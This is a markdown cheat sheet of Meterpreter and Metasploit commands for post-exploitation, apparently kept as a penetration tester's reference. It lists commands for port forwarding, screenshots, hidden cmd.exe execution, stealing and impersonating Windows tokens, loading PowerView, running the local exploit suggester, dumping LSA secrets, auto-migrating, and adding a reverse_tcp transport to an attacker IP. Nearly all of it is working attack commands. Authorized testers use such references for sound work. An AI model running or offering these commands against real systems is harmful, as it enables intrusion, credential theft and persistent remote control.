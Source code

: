 # Meterpreter and Metasploit
======
#### Port Forwarding
portfwd add -l 1111 -p 22 -r Target2
#### Screenshot
screenshot -p file.jpg
#### Idle Time
idletime
#### Disable/Enable Mouse
uictl
#### Execute a command (interact with process / create a hidden process)
execute -f cmd.exe -i -H
#### Execute a command with arguments
execute -f cmd.exe -H -a "/c net users"
#### Steal a token from PID
steal_token PID
#### Impersonate a User Token
+ load incognito
+  list tokens -u
+  impersonate_token '<domain\user>'

#### Spawn Process as Impersonated User
execute -f cmd.exe -i -H -t 
#### Powershell Execute (load powershell)
powershell_execute "Get-ChildItem C:\Users\user -Recurse"
#### Powershell Import
powershell_import /path/to/powerview.ps1
#### Immediately Background Sessions
exploit -j
#### Set global variable
setg RHOSTS 1.2.3.4
#### Local Exploit Suggester
meterpreter> run post/multi/recon/local_exploit_suggester

## msfvenom
------
#### List Payloads
msfvenom --list payloads
#### Payload Types
asp, perl, jsp, python, jar, php, linux (elf), windows (exe, dll, ps1, psh-cmd)

## Modules
------
#### windows/gather/lsa_secrets
Dumps LSA Secrets.  You can also use Kiwi's lsa_dump_secrets (probably better).
#### Autorun a Script after Shell
set AutoRunScript post/windows/manage/migrate

## Transport
------
#### List Transport Options
transport list
#### Add Transport
transport add -t reverse_tcp -l 10.1.1.1 -p 5555